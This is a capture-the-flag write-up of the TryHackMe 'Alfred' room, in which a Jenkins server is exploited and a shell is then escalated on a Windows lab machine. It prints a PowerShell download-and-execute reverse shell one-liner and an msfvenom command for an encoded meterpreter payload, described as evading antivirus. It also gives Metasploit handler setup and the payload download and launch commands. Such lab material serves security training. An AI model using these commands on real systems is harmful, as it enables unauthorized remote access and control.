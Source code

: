 <p><h3> Welcome to the <em>TryHackMe</em></h3>
<h1>Offensive Pentesting learning path> Advanced Exploitation</h1>
<h2>Alfred</h2>
<p>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication token.</p>
<br>
October 19, 2024<br><br>
Type: Easy<br>
Link: https://tryhackme.com/r/room/alfred</p><br>

![image](https://github.com/user-attachments/assets/89ba97a4-d79a-4c6d-8c86-dab1becb8e05)


<p><h2>Task 1 - Initial Access</h2>
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. <br><br>
Since this is a Windows application, we'll be using <strong>Nishang</strong> to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the <strong>reverse shell scripts</strong>.<br><br>
Please note that this machine <strong>does not respond to ping</strong> (ICMP) and may take a few minutes to boot up.

In the following link you´ll find more information about Nishang.https://github.com/samratashok/nishang<br>
And in tis other link we will find more abour reverse shell scripts. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1</p>

<p><br></p>

> 1.1 - <em>How many ports are open? (TCP only)?</em><br>
>> <strong>_______</strong>

<p><br></p>

> 1.2 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>________</strong>

<p><br></p>

<p>Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: <code>powershell iex</code> (<em>New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port</em></p>
<p>You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: <code>python3 -m http.server</code></p>

<p><br></p>

> 1.3 - <br>
>> <strong>No answer needed</strong>

<p><br></p>

> 1.4 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>____</strong>


<p><h2>Task 2 - Switching Shells</h2>
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.<br><br>
Use msfvenom to create a Windows meterpreter reverse shell using the following payload:<br><br>
  
> <strong>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe</strong>

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.<br><br>
After creating this payload, download it to the machine using the same method in the previous step:<br><br>

> <strong>powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"</strong>

Before running this program, ensure the handler is set up in Metasploit:<br><br>

> <strong>use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run</strong>

This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell<br><br>

> <strong>Start-Process "shell-name.exe"</strong>

This should spawn a meterpreter shell for you!</p>

<p><br></p>

> 2.1 - <em>What is the final size of the exe payload that you generated?</em><br>
>> <strong>_______</strong>




